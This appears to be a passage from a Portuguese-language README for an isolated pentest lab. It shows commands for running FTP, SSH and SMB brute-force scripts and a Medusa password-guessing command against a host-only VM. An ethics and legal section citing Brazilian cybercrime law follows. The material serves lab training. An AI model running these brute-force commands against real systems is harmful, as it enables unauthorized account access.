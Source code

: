 2. **Configure as VMs em rede Host-Only**

3. **Verifique conectividade:**
   ```bash
   ping 192.168.56.102
   ```

4. **Execute os scripts:**
   ```bash
   cd scripts
   ./ftp_bruteforce.sh 192.168.56.102
   ./ssh_bruteforce.sh 192.168.56.102
   ./smb_bruteforce.sh 192.168.56.102
   ```

5. **Ou execute comandos manualmente:**
   ```bash
   medusa -h 192.168.56.102 -U ../wordlists/users.txt -P ../wordlists/passwords.txt -M ftp -t 4 -v 6 -f
   ```

---

## 9. Considerações Éticas e Legais

### ⚠️ AVISO LEGAL IMPORTANTE

**Este projeto foi realizado em ambiente controlado e isolado, com autorização explícita.**

### Aspectos Legais

- **Lei de Crimes Cibernéticos (Brasil)**: Lei nº 12.737/2012 tipifica invasão de dispositivos informáticos
- **Pena**: Detenção de 3 meses a 1 ano + multa
- **Agravantes**: Se houver obtenção de conteúdo, a pena aumenta

### Uso Ético

**✅ PERMITIDO:**
- Testes em laboratório pessoal isolado
- Máquinas virtuais vulneráveis (Metasploitable, DVWA, etc.)
- Sistemas próprios com autorização
- Programas de Bug Bounty autorizados

**❌ PROIBIDO:**
- Testes em sistemas de terceiros sem autorização
- Ataques a infraestruturas públicas
- Uso para fins maliciosos
- Compartilhamento de credenciais obtidas

### Responsabilidade Profissional

Como profissional de segurança:
- Sempre obtenha autorização por escrito
- Defina escopo claro dos testes
- Mantenha confidencialidade
- Reporte vulnerabilidades responsavelmente
- Não cause danos aos sistemas

---